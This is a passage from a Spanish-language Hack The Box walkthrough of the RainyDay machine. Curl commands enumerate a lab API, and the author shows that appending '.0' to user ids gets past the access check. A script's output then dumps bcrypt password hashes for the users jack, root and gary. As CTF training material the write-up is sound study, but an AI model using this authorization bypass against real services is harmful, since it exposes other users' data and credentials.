 Y bueno esto ya pinta interesante

![](https://i.imgur.com/q9VQAgA.png)

Vemos un solo contenedor

```bash
❯ curl -s http://rainycloud.htb/api/list
{"secrets":{"image":"alpine-python:latest","user":"jack"}}
```

Bueno solo vemos esto

```bash
❯ curl -s http://rainycloud.htb/api/healthcheck
{"result":true,"results":[]}
```

Y bueno para la parte de **user** vemos que se usa el parametro **id** entonces con esto podemos saber que como tal usan un identificador cada uno pueden ser numeros o sus nombres podemos probar desde consola para ver las respuestas que obtenemos

```bash
❯ curl -s http://rainycloud.htb/api/user/1
{"Error":"Not allowed to view other users info!"}
```

Con numeros enteros no funciona

```bash
❯ curl -s http://rainycloud.htb/api/user/2
{"Error":"Not allowed to view other users info!"}
❯ curl -s http://rainycloud.htb/api/user/3
{"Error":"Not allowed to view other users info!"}
```

## Shell in container

Podemos probar agregando un valor .0 y funciona para eso hice esto script de **Python3** para automatizar aunque tambien podria haberse hecho en un oneliner de bash

<https://github.com/MikeRega7/Scripts/blob/main/HackTheBox/RainyDay/script.py>

```bash
❯ python3 script.py

Respuesta http://rainycloud.htb/api/user/1.0: {'id': 1, 'password': '$2a$10$bit.DrTClexd4.wVpTQYb.FpxdGFNPdsVX8fjFYknhDwSxNJh.O.O', 'username': 'jack'}

Respuesta http://rainycloud.htb/api/user/2.0: {'id': 2, 'password': '$2a$05$FESATmlY4G7zlxoXBKLxA.kYpZx8rLXb2lMjz3SInN4vbkK82na5W', 'username': 'root'}

Respuesta http://rainycloud.htb/api/user/3.0: {'id': 3, 'password': '$2b$12$WTik5.ucdomZhgsX6U/.meSgr14LcpWXsCA0KxldEw8kksUtDuAuG', 'username': 'gary'}

Respuesta http://rainycloud.htb/api/user/4.0: {}

Respuesta http://rainycloud.htb/api/user/5.0: {}

Respuesta http://rainycloud.htb/api/user/6.0: {}

Respuesta http://rainycloud.htb/api/user/7.0: {}

Respuesta http://rainycloud.htb/api/user/8.0: {}
^C

[+] Saliendo...
```
